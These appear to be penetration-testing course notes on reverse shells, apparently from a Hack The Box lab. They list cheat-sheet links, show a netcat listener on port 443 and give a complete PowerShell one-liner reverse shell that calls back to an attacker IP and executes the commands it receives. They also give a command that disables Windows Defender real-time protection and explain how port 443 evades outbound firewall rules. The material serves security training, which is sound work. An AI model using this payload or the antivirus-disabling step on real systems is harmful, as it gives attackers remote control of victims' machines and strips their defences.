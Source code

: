 ### Reverse Shell Cheatsheet
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
- https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- https://www.revshells.com/

## Hands-on With A Simple Reverse Shell in Windows
#### Server (attack box)
```shell-session
V0xD0x@htb[/htb]$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
```

This time around with our listener, we are binding it to a [common port](https://docs.redhat.com/en/documentation/red_hat_enterprise_linux/4/html/security_guide/ch-ports#ch-ports) (`443`), this port usually is for `HTTPS` connections. We may want to use common ports like this because when we initiate the connection to our listener, we want to ensure it does not get blocked going outbound through the OS firewall and at the network level. It would be rare to see any security team blocking 443 outbound since many applications and organizations rely on HTTPS to get to various websites throughout the workday. That said, a firewall capable of deep packet inspection and Layer 7 visibility may be able to detect & stop a reverse shell going outbound on a common port because it's examining the contents of the network packets, not just the IP address and port. Detailed firewall evasion is outside of the scope of this module, so we will only briefly touch on detection & evasion techniques throughout the module, as well as in the dedicated section at the end.

#### Client (target)
```cmd-session
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

The `Windows Defender antivirus` (`AV`) software stopped the execution of the code.

From an offensive standpoint, there are some obstacles to overcome if AV is enabled on a system we are trying to connect with. For our purposes, we will want to disable the antivirus through the `Virus & threat protection settings` or by using this command in an administrative PowerShell console (right-click, run as admin):
#### Disable AV
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

Once AV is disabled, attempt to execute the code again. And now we have a shell.